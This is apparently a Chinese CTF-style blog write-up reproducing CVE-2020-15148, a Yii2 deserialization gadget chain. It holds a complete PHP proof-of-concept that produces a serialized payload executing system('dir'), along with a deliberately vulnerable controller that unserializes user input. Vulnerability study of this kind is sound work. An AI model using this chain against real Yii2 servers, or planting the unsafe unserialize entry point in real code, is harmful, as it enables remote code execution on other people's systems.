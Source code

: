 ## 前言

最近想法，复现一些框架的漏洞，提高一下自己的代码审计能力，思来想去还是在`Yii2`开始吧。毕竟最近的比赛`Yii2`遇到的是真的多，找的`poc`都是别的师傅写好的，这可不太行，自己复现一波把。

## 漏洞描述

- **编号：**`CVE-2020-15148`
- **版本：**`Yii2<2.0.38` 

## 环境搭建

- **Download：**`https://github.com/yiisoft/yii2/releases/download/2.0.37/yii-basic-app-2.0.37.tgz`

## 漏洞复现

漏洞位置：**basic/vendor/yiisoft/yii2/db/BatchQueryResult.php**

首先`Yii2`的`BatchQueryResult`类中使用`__destruct`魔术方法，这里调用了`reset`函数，进行跟踪。

![image-20211011100047812](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011100047812.png)

这里出现的变量`$_dataReader`，是类内变量，也就意味这这是我们可控的。因此我们可以寻找一个类，存在`__call`方法，却不存在`close`这个方法，成功触发`__call`

![image-20211011100446956](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011100446956.png)

全局搜索，在`base\vendor\fzaninotto\faker\src\Faker\Generator.php`中找到符合条件的类，这里推测应该是挖出这个链的师傅一个一个看过来的，真厉害呢

![image-20211011112009228](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011112009228.png)

非常符合条件

![image-20211011112211764](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011112211764.png)

追踪`format`

![image-20211011112437335](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011112437335.png)

这里有一个函数声明，纯纯RCE的预兆，继续跟踪`getFormatter`

![image-20211011113202072](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011113202072.png)

`format`里调用了`call_user_func_array`,`$formatter`与`$arguments`都不可控，目前`$formatter='close'`,`$arguments`为空。`$formatter`传入了`$this->getFormatter`,在这个方法中，`$this->formatters`是可控的，这也就意味着`getFormatter`方法的返回值是可控的。

因此`fomot`里面的`all_user_func_array`这个函数的第一个参数可控，第二个参数为空。

现在可以调用`yii`框架中的任何一个无参的方法。所以，要找一个无参数的方法，在这个方法中我们可以实现任意代码执行或者间接实现任意代码执行。

这里看到别的师傅使用的是正则匹配`function \w+\(\) ?\n?\{(.*\n)+call_user_func`，这里我太菜了，没有找到这个类，只能根据分析好的去找。

![image-20211011123144263](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011123144263.png)

可以看到`$this->checkAccess`以及`$this->id`都可控，构成利用链

```php
yii\db\BatchQueryResult::__destruct() -> Faker\Generator::__call() -> yii\rest\IndexAction::run()
```

因此poc为：

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'dir';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
```

## 测试poc

在`controllers`目录下创建一个`Controller`作为反序列化入口

```php
<?php
namespace app\controllers;

use Yii;
use yii\web\Controller;
use yii\filters\VerbFilter;
use yii\filters\AccessControl;
use app\models\LoginForm;

class AxinController extends \yii\web\Controller{
    public function actionDeser($data){
        return unserialize(base64_decode($data));
    }
}
```

![image-20211011123924132](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011123924132.png)

生成poc

![image-20211011124130208](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011124130208.png)

![image-20211011125623986](https://husins.oss-cn-beijing.aliyuncs.com/image-20211011125623986.png)

